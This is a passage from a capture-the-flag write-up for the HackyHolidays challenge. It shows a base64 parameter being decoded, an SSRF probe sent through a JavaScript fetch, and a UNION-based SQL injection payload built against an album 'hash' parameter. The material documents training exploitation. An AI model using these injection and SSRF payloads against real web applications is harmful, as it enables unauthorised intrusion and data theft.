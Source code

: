 ```mysql
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```

Hmm, nothing really interesting here. Let's have a look at how pictures are loaded.

https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzliODgxYWY4YjMyZmYwN2Y2ZGFhZGE5NWZmNzBkYzNhLmpwZyIsImF1dGgiOiJlOTM0ZjQ0MDdhOWRmOWZkMjcyY2RiOWMzOTdmNjczZiJ9

Now that's more interesting! While the `picture` endpoint's `data` parameter doesn't seem to be vulnerable to SQLi, its contents look base64 encoded:
```javascript
atob(`eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLzliODgxYWY4YjMyZmYwN2Y2ZGFhZGE5NWZmNzBkYzNhLmpwZyIsImF1dGgiOiJlOTM0ZjQ0MDdhOWRmOWZkMjcyY2RiOWMzOTdmNjczZiJ9`);
```
```json
{
  "image":"r3c0n_server_4fdk59\/uploads\/9b881af8b32ff07f6daada95ff70dc3a.jpg",
  "auth":"e934f4407a9df9fd272cdb9c397f673f"
}
```

Sweet, looks like there might be some sort of SSRF and a leaked auth-hash! Also, we know uploaded pictures go in `uploads/`. Let's try to access some really common API endpoint, like `api/user`, right away!
```javascript
let e = btoa('{"image":"r3c0n_server_4fdk59\/api\/user","auth":"e934f4407a9df9fd272cdb9c397f673f"}');
fetch(`/r3c0n_server_4fdk59/picture?data=${e}`).then(d => d.text()).then(d => console.log(d));
```
Wonder what nice stuff we'll get back now!
```text
invalid authentication hash
```
... I should have known. Seems like the `auth` part of the JSON object is used to check the contents of `image`. We can add any arbitrary properties we'd like to the JSON object, and as long as we don't fiddle with `image` and `auth`, the `/picture` endpoint will happily  accept it.

\* **Several days of trying to figure out how the `auth` hash is encoded, hashed, encrypted etc later** *

I got ... nothing. Let's go over the SQLi on the `hash` param - maybe we can influence the pictures displayed... 

Looking back at the album and photo tables, the query is likely to select three columns so let's try with a UNION attack and see if we can get photos from 2020 without using the hash `jdh34k`. Since we know the album id is `3`, we can construct the following  SQLi:

```javascript
sql = `' union all select "3", 3, 'test' -- `;
encodeURI(`https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=${sql}`);
```
Gives us this link https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash='%20union%20all%20select%20%223%22,%203,%20'test'%20--%20 resulting in this page:
{F1138533}
